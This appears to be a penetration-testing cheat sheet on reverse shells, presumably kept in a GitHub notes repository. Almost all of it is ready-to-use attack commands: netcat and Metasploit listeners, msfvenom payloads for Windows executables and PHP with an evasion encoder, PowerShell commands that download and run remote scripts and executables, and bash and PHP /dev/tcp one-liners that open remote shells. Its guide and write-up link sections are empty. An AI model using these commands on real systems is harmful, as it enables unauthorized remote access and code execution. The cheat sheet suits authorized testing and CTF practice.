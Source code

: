 # Reverse Shell

## Listeners
___

### NC
```
nc -lvnp 4444
```
### Metasploit
- Meterpreter listener
```
use exploit/multi/handler
set lhost 0.0.0.0
set lport 4444
set payload windows/(x64)/meterpreter/reverse_tcp
```

## Payload
___

### Windows
- Reverse shell with nishang Invoke-PowershellTcp
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1')
Invoke-PowerShellTcp -Reverse -IPAddress 10.6.77.211 -Port 4444
```

- Upgrade shell to meterpreter session
```sh
# Generate Payload with msfvenom then serve it with SimpleHTTPServer
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o rshell.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
python -m SimpleHTTPServer 8000
```
- Download and execute payload on target machine
```powershell
powershell (New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')
```

### Metasploit
- Exe Payload
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f exe > shell.exe
```

- PHP Payload
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
- Basic PHP command line to open a shell
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/0.0.0.0/4445 0>&1'");
```

- Bash command to open shell
```sh
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'
```

## Upgrading shell
___
- Upgrade shell to bash/pty

```sh
SHELL=/bin/bash script -q /dev/null
```
```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
```

## Links
___
### Guides
- 

### Writeups
- 